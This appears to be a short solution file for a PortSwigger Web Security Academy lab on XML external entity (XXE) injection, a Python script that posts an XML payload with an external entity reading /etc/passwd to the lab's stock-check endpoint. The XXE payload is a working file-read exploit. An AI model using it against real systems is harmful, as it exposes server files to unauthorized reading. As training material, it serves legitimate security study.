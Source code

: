 # Lab: Exploiting XXE using external entities to retrieve files

Link to lab: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0a6300c2046a6e3cc0df1cea00ce0085.web-security-academy.net',
    'Content-Type': 'application/xml',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId>\r\n</stockCheck>'

response = requests.post(
    'https://0a6300c2046a6e3cc0df1cea00ce0085.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)

print(response.text)
```